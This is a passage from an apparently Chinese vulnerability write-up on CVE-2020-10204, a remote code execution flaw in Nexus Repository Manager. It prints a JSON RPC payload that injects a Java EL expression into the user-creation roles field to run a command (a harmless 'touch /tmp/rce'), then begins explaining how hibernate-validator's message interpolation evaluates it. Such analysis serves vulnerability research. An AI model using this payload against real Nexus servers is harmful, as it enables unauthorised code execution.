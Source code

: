     {"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId31.png)

以及其他几处注解使用的地方

![](./resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId32.png)

还有一个问题为什么增加`\A`不会影响表达式的解析呢?

在`/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class`对传入的字符串进行了两次处理,

原本的字符串为`Missing roles: [$\B{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}]`

然后第一次处理后的结果
